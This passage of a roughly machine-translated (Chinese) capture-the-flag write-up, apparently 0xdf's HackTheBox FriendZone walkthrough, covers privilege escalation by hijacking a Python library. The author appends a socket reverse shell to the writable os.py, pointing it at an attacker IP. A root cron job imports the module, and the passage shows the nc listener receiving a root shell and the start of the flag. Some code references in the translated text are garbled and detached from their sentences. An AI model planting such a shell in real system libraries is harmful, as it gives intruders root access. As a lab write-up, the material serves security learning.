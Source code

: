 
_我认为_顶部的空行表示脚本的当前目录。

这种劫持最常见的情况是发现包含python脚本的目录是可写的。在这种情况下，我可以在旁边放一个，它会在检查之前加载在那里。在这种情况下，我实际上无法写信给 .但我可以直接写到这个模块的普通版本。`os.py``reporter.py``/usr/lib/python2.7/``/opt/server_admin/`

我将打开 中的文件，然后转到底部。在那里，我将为自己添加一个外壳：`vi`

    ...[snip]...
    def _pickle_statvfs_result(sr):
        (type, args) = sr.__reduce__()
        return (_make_statvfs_result, args)
    
    try:
        _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                         _make_statvfs_result)
    except NameError: # statvfs_result may not exist
        pass
    
    import pty
    import socket
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.7",443))
    dup2(s.fileno(),0)
    dup2(s.fileno(),1)
    dup2(s.fileno(),2)
    pty.spawn("/bin/bash")
    s.close()
    

这是一个标准的蟒蛇反向外壳，除了，我只是写.那是因为我现在在os模块中。如果你只是，它实际上应该仍然有效，但我删除了它，因为它不需要。`os.dup2()``dup2()``import os`

我会保存下来的。由于等待两分钟失败很烦人，我会自己打开Python，看看我是否能以朋友的身份找回一个外壳。在刚开始时，我得到一个回调，并有一个外壳。我会退出并等待克罗因。一旦两分钟过去，壳：`python`

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.123.
    Ncat: Connection from 10.10.10.123:46118.
    root@FriendZone:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

从那里，抓住：`root.txt`

    root@FriendZone:~# cat root.txt 
    b0e6c60b...
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html#box-info)